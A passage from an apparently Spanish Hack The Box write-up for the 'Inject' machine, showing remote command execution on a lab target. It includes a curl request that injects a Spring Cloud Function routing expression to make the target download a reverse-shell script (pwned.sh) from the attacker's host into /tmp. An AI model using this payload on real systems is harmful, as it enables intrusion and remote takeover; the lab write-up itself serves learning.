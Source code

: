 
Observamos que la máquina víctima realiza una solicitud GET a nuestro servidor HTTP creado con Python. Esto indica que hemos logrado la ejecución remota de comandos. Ahora solo queda enviar una Reverse Shell. Procederemos a crear un archivo que contenga el comando en una sola línea en bash para enviar la Reverse Shell.

![](https://github.com/ElSwix/HTB-WriteUPS/blob/main/ES/Machines/Easy/Inject/img/13.png?raw=true)


Ahora haremos que el servidor copie nuestro archivo `pwned.sh` y lo guarde en el directorio `/tmp`. Posteriormente, lo ejecutaremos para recibir la shell.


```
elswix@parrot > curl -X POST  http://10.129.35.222:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("curl 10.10.16.42/pwned.sh -o /tmp/pwned.sh")' --data-raw 'data' -v
```



![](https://github.com/ElSwix/HTB-WriteUPS/blob/main/ES/Machines/Easy/Inject/img/14.png?raw=true)


Ahora, finalmente, procederemos a ejecutar el archivo que hemos almacenado en la ruta `/tmp/pwned.sh`.
